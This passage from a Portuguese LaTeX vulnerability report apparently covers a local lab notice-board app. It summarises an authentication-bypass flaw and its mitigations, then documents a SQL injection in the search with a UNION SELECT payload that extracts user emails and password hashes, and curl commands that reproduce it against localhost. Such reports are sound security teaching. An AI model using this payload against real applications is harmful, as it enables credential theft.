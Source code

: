   \textbf{Impacto.}
  \begin{itemize}
      \item \textbf{Confidencialidade:} acesso a páginas autenticadas como outro usuário.
      \item \textbf{Integridade:} publicação de avisos em nome de terceiros.
      \item \textbf{Disponibilidade:} indireta (conteúdo falso ou abusivo).
  \end{itemize}
  
  \textbf{Mitigação hipotética.} Remover o atalho de sessão por e-mail; exigir sempre
  \texttt{password\_verify}; implementar MFA em ambientes reais; registrar tentativas falhas e
  aplicar rate limiting.
  
  \subsection{Injeção SQL na busca de avisos}
  
  \textbf{Descrição.} Quando o parâmetro \texttt{q} não é vazio, \texttt{buscar\_titulo\_montado()}
  concatena a entrada na cláusula \texttt{LIKE}. A listagem sem busca usa consulta preparada e não
  apresenta o defeito --- ilustrando inconsistência de controles no mesmo módulo.
  
  \textbf{Classificação.} OWASP Top 10:2021 --- A03:2021 \emph{Injection} \cite{owasp};
  CWE-89 \emph{SQL Injection} \cite{cwe}.
  
  \textbf{Pré-condições.} Sessão autenticada (conta legítima ou obtida via falha de autenticação).
  
  \textbf{Payload de demonstração.}
  \begin{lstlisting}
  x' UNION SELECT id, email, senha_hash, NOW(), nome FROM usuarios#
  \end{lstlisting}
  
  O apóstrofo encerra a string do \texttt{LIKE}; \texttt{UNION SELECT} projeta colunas compatíveis com
  a renderização da página; \texttt{\#} comenta o restante da consulta original.
  
  \textbf{Reprodução (terminal).}
  \begin{lstlisting}
  jar=$(mktemp)
  curl -s -c "$jar" -b "$jar" -o /dev/null \
    -d 'email=ivan@avisos.br&senha=aviso123' \
    http://localhost:8080/login.php
  curl -s -c "$jar" -b "$jar" -G --data-urlencode \
    "q=x' UNION SELECT id, email, senha_hash, NOW(), nome FROM usuarios#" \
    http://localhost:8080/avisos.php | grep -o 'daniel@avisos.br'
  rm -f "$jar"
  \end{lstlisting}
  
